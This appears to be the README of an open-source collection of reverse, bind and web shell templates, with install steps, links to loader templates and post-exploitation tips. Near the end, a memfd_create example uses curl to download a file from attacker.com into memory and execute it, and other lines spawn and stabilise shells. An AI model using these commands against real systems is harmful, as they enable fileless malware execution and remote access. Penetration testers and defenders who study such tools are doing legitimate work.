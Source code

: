 # Shells

![Demo](./assets/demo.gif)

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `getshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./getshell/templates/reverse/connector/windows-cpp/)
- [Cross-platform TCP reverse shell with Cosmopolitan Libc](./getshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./getshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./getshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./getshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./getshell/templates/exec/mmap-ctype.py)
- [Meterpreter loader for Windows](./getshell/templates/exec/windows-minildr/)

## Tips

Metasploit payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo && fg
# paste clipboard and press enter
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go
